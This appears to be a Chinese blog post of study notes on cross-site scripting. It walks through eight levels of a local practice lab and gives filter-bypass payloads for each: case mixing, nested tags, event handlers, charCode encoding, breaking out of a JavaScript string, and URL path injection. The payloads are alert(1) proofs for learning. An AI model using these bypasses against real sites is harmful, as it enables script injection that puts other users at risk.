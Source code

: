 ```yaml
---
title: XSS学习笔记
tags: [XSS]
categories: [网络安全]
date: 2016-03-23 21:47:05
---
```


跨站脚本 (Cross-Site Scripting, `XSS`) 是一种经常出现在Web应用程序中的计算机安全漏洞。
形成原因和SQL注入一样, 是因为Web容器将用户提交的**数据**当代码解析执行了。

下面, 我们将用自己搭建的本地环境测试, 介绍一下XSS通常都有哪些**姿势**

<!-- more -->

**[XSS环境下载地址](https://github.com/kba977/xss_labs)**, 大家可以对照源码来学习XSS的绕过姿势。

## 1. 第一关 
非常简单, 直接输入payload即可。

    <script>alert(1)</script> 

    http://10.211.55.7/xss/example1.php?name=<script>alert(1)</script>
![](https://ws3.sinaimg.cn/large/006tNc79gy1fvo6z3pfgxj31940o2dpd.jpg)

## 2. 第二关
过滤掉了**小写**的**script**, 可以使用大小写混合的方法绕过。

    <sCrIpt>alert(1)</sCriPt>

    http://10.211.55.7/xss/example1.php?name=<sCrIpt>alert(1)</sCriPt>
![](https://ws1.sinaimg.cn/large/006tNc79gy1fvo6z6hos4j31ak0lwqby.jpg)

## 3. 第三关
过滤了**不区分大小写**的`<script>`与`</script>`，可以使用**嵌套**的script标签绕过。

    <sc<script>ript>alert(1)</sc</script>ript>

    http://10.211.55.7/xss/example1.php?name=<sc<script>ript>alert(1)</sc</script>ript>
![](https://ws3.sinaimg.cn/large/006tNc79gy1fvo6z7f3ldj317s0l07cf.jpg)

## 4. 第四关
判断包含`script`字符串即报错, 可以使用其他标签如`img`绕过。

    <img src=x onerror="alert(1)">

    http://10.211.55.7/xss/example1.php?name=<img src=x onerror="alert(1)">
![](https://ws3.sinaimg.cn/large/006tNc79gy1fvo6z8tzxzj31680kaqaq.jpg)

## 5. 第五关
判断包含alert字符串即报错, 可以使用编码方式绕过。

    <script>eval(String.fromCharCode(97,108,101,114,116,40,49,41))</script>
    或
    <img src=x onerror="eval(String.fromCharCode(97,108,101,114,116,40,49,41))">

    http://10.211.55.7/xss/example1.php?name=<script>eval(String.fromCharCode(97,108,101,114,116,40,49,41))</script>
![](https://ws3.sinaimg.cn/large/006tNc79gy1fvo6zc3utaj318i0lmait.jpg)

## 6. 第六关
直接在js环境中输出php变量, 可以通过构造js脚本绕过。

    ";b=alert(1); eval(b);//
    或
    ";alert(1);//
    或
    </script><script>alert(1)// (通过直接闭合前前后`script`来达到目的, 该方法在第七关不可用, 因为`<`和`>`被实体编码了/(ㄒoㄒ)/~~)

    http://10.211.55.7/xss/example1.php?name=";b=alert(1);eval(b);//
![](https://ws1.sinaimg.cn/large/006tNc79gy1fvo6zd0e96j316c0kyn53.jpg)

## 7. 第七关
在js环境中输出通过html编码的php变量, `htmlentities`没有过滤单引号, 使用单引号绕过。

    ';b=alert(1);eval(b);//
    或
    ';alert(1);//

    http://10.211.55.7/xss/example1.php?name=';b=alert(1);eval(b);//
![](https://ws1.sinaimg.cn/large/006tNc79gy1fvo6zdyohaj316s0kk7c5.jpg)

## 8. 第八关
第八个xss的post地址使用了当前url, 达到构造当前url地址达到xss目的

    /"method="post"><script>alert(1)</script>

    http://10.211.55.7/xss/example1.php/"method="post"><script>alert(1)</script>
![](https://ws3.sinaimg.cn/large/006tNc79gy1fvo6zevnqej316u0kqtgm.jpg)

另外, 介绍另外几个**payload**

- `"/><svg/onload=alert(1)>` 可绕过前4关
- `"></script><c/onclick=confirm(1)>ccc` 可绕过第5和第6关

最后, 推荐 google 的 xss-game, 共6关, 有兴趣的同学可以试试哟 :P

[Google的xss-game(需翻墙)](https://xss-game.appspot.com/)